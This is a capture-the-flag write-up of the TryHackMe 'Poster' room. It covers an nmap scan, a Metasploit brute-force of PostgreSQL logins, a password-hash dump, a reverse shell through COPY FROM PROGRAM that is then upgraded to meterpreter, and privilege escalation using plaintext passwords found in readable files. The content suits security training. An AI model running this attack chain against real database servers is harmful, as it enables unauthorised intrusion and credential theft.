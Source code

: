 ```bash
# PLATFORM          . THM
# CTF NAME          . Poster
# DESCRIPTION       . The sys admin set up a rdbms in a safe way.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/poster
```

```
sudo nmap -sSVC -T5 -p- 10.10.200.186 -oN poster
```

```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 71ed48af299e30c1b61dffb024cc6dcb (RSA)
|   256 eb3aa34e6f1000abeffcc52b0edb4057 (ECDSA)
|_  256 3e4142353805d392eb4939c6e3ee78de (ED25519)
80/tcp   open  http       Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Poster CMS
|_http-server-header: Apache/2.4.18 (Ubuntu)
5432/tcp open  postgresql PostgreSQL DB 9.5.8 - 9.5.10 or 9.5.17 - 9.5.23
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2020-07-29T00:54:25
|_Not valid after:  2030-07-27T00:54:25
|_ssl-date: TLS randomness does not represent time
```

#### Port 5432

- This CTF is a bit guided and points us to use metasploit.

- I found the `auxiliary/scanner/postgres/postgres_login` module helpful in bruteforcing the credentials. 

```
[-] 10.10.200.186:5432 - LOGIN FAILED: postgres:@template1 (Incorrect: Invalid username or password)
[-] 10.10.200.186:5432 - LOGIN FAILED: postgres:tiger@template1 (Incorrect: Invalid username or password)
[-] 10.10.200.186:5432 - LOGIN FAILED: postgres:postgres@template1 (Incorrect: Invalid username or password)
[+] 10.10.200.186:5432 - Login Successful: postgres:{REDACTED}
```

- `auxiliary/admin/postgres/postgres_sql` can be used with the credentials found above to list postgre's version.

- `auxiliary/scanner/postgres/postgres_hashdump` can be used to dump the user's password hashes.

```
   Name      Current Setting  
   ----      --------------- 
   DATABASE  template1      
   PASSWORD  {REDACTED}         
   RHOSTS    10.10.200.186    
   RPORT     5432            
   THREADS   1                
   USERNAME  postgres         
```

```
 Username   Hash
 --------   ----
 darkstart  md58842{REDACTED}a27d
 poster     md578fb{REDACTED}4cce0a
 postgres   md532e1{REDACTED}5127
 sistemas   md5f7db{REDACTED}ee2b
 ti         md57af9{REDACTED}579
 tryhackme  md503aa{REDACTED}efddc
```

- `exploit/multi/postgres/postgres_copy_from_program_cmd_exec` is the module used to get a reverse shell on the server.

```
   Name               Current Setting  
   ----               ---------------  
   DATABASE           template1       
   DUMP_TABLE_OUTPUT  false            
   PASSWORD           {REDACTED}         
   RHOSTS             10.10.200.186    
   RPORT              5432             
   TABLENAME          hp0lDpyb        
   USERNAME           postgres
```

- Additionally, we can take one extra step and use `post/multi/manage/shell_to_meterpreter` to upgrade our shell to meterpreter.

- First, background the shell gained from the module above --- CTRL + Z

- Then, run the `shell_to_meterpreter` module with the following options

```
   Name     Current Setting  
   ----     ---------------  
   HANDLER  true             
   LHOST    {REDACTED}
   LPORT    4433            
   SESSION  1             
```

- Finally, use `sessions -i [session_ID]` to interact with the new (meterpreter) session.

- In `/home/dark/credentials.txt` we can find dark's credentials.

```
dark:qw{REDACTEDe
```

```
Sorry, user dark may not run sudo on ubuntu.
```

#### Privilege Escalation : dark -> alison

```
find / -type f -perm 0777 2>dev/null
```

- The command above listed 2 files I have full (rwx) permissions to, the credentials file I already knew about and `/var/www/html/config.php` file

```
<?php 
	
	$dbhost = "127.0.0.1";
	$dbuname = "alison";
	$dbpass = "{REDACTED}";
	$dbname = "mysudopassword";
?>
```

- After switching user as `alison`, we can grab the user flag from `/home/alison/user.txt`.

- I ran `sudo -l` as `alison` and I had a really nice surprise :) 

```
User alison may run the following commands on ubuntu:
    (ALL : ALL) ALL
```

- The last flag is in `/root/root.txt` file.